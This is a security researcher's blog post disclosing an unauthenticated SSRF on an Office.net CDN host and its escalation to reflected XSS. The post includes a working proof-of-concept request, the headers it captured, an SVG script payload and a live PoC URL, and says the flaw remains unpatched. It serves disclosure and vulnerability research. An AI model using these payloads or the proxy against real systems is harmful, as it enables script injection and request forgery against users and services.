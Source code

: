 ```yaml
---
title: "Unauthenticated SSRF in Office.net"
date: 2024-10-28T20:20:19-04:00
draft: true
tags: ["notes", "microsoft", "ssrf", "xss"]
---
```


In late September I reported an unauthenticated SSRF I'd found on Office.net to MSRC, only to receive a response that said I had included no reproduction steps, and therefore the report was invalid and would be closed. 

Obviously, the report had reproduction steps. So I replied, directing them to *the report* (which included reproduction steps), and was met with the same response. The report was closed, and I was pretty miffed. 

It sucks, but it's actually not the first time it's happened to me, in similar form, so I filed it back into my pile of orphaned MS bugs and ended up looking back at it again a week later. 

*Once, I had a report for a bug in Teams get automatically closed, and got a response about it not meeting criteria for bugs in Bing. After asking what the fuck Bing had to do with anything, I received:*
> "There seems like there may have been a mix-up on our end. You are correct, this case does not deal with BingAI" 

*No joke. They later paid out $5,000 for that disclosure.*

### SSRF Details

The SSRF wasn't complex, a URL path parameter caused an HTTP request to arbitrary domains, but it was restricted to image files and responded with 405's and a `Content-Type not allowed` response body for anything but.

Here's a poc request:
```
GET /localh0st.run/test?testParam=test HTTP/1.1
Host: media.akamai.odsp.cdn.office.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
TEST-HEADER: This is a test header through an SSRF
```

and what `localh0st.run` receives:
```
GET /test?testParam=test HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
TEST-HEADER: This is a test header through an SSRF
Pragma: akamai-x-cache-remote-on
X-Akamai-CONFIG-LOG-DETAIL: true
TE:  chunked;q=1.0
Connection: TE
Accept-Encoding: gzip
Akamai-Origin-Hop: 1
Via: 1.1 akamai.net(ghost) (AkamaiGHost)
X-Forwarded-For: 6x.xx.xx.xx7
True-Client-IP: 6x.xx.xx.xx7
Host: localh0st.run
Cache-Control: max-age=86400
Connection: keep-alive
```

Not a crazy bug, but it allows proxying of GET requests, including headers and parameters, to arbitrary resources. Note the included `TEST-HEADER: This is a test header through an SSRF` header.

### SSRF --> XSS

I went back a week or two later to resubmit it, and decided to take a second look. This time I fuzzed for accepted file extensions and found SVGs were returned successfully. I made a quick XSS SVG PoC and boom, Reflected XSS on Office.net through an externally hosted SVG!

classic XSS svg:
```
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">  
<polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>  
<script type="text/javascript">  
alert(document.location);  
</script>  
</svg>
```

PoC URL:

`https://media.akamai.odsp.cdn.office.net/localh0st.run/tests/test.svg`

![XSS-1](<screens/Pasted image 20241001210323.png>)

### Bounty? You wish!

Sadly, even though this was an unauthenticated SSRF, leading to XSS via an externally hosted SVG, that additionally allowed both arbitrary URL parameters *and* arbitrary headers sent to external and internal resources, Microsoft said the following:

![alt text](<screens/Pasted image 20241028100744.png>)

I feel like the "as presented" wording is a bit of a "gotcha" (it's XSS, come on), but MS has very strict categorization of issues, defined here: https://www.microsoft.com/en-us/msrc/olsbugbar

This XSS apparently only meets the "General - Moderate" classification: 
> XSS triggering on public pages that does not disclose private data or allow the compromise of an authenticated session

Interestingly however, the SSRF meets the "Confidential - Important" criteria:
> SSRF vulnerability sending requests to sensitive internal endpoints that leaks sensitive information or performs a sensitive action 

Microsoft, however, does not agree.

### Status: Complete

It took a bit of digging through MS documentation, [but a disclosure status of **Complete**, states](https://msrc.microsoft.com/blog/2023/07/what-to-expect-when-reporting-vulnerabilities-to-microsoft/) "Congratulations! You will now be free to discuss your findings publicly if you wish."

So, while this issues remains actively vulnerable, Microsoft has been made aware, they decided it's not really an issue, and given their blessing for public disclosure.

I don't get it either, but it's public now so have fun I guess.